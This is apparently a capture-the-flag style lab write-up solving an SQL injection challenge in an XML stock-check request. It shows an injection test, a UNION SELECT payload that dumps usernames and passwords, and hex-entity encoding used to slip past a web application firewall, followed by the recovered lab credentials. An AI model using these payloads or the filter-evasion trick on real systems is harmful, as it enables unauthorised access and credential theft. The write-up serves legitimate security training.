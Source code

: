 # Lab: SQL injection with filter bypass via XML encoding

## Lab

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

## Hint

A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 

## Solution

After view details in the end of web we have select options to select localtion to server check stock.

There is a XML format:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

__Return: 724 units__

In tag <storeId> inject `+1` after `1`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1+1
    </storeId>
</stockCheck>
```

__Return: 959 units__

So we confirm that we can inject query there.

Modify tag <storeId> to `<storeId>1 UNION SLECT username||'~'||password FROM users</storeId>`

__Return: "Attack detected"__

Because a WAF will block requests that contain obvious signs of a SQL injection attack. So we must bypass this by `Hackvertor` extension.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>
            1 UNION SELECT username||'~'||password FROM users
        <@/hex_entities>
    </storeId>
    </stockCheck>
```

__Return:__
__724 units__
__wiener~jy95yieqb1if6u2cmxe8__
__carlos~60dc8ocs0appjyntafh2__
__administrator~78fym7ek6kmpqz8uudb7__

So we solved this lab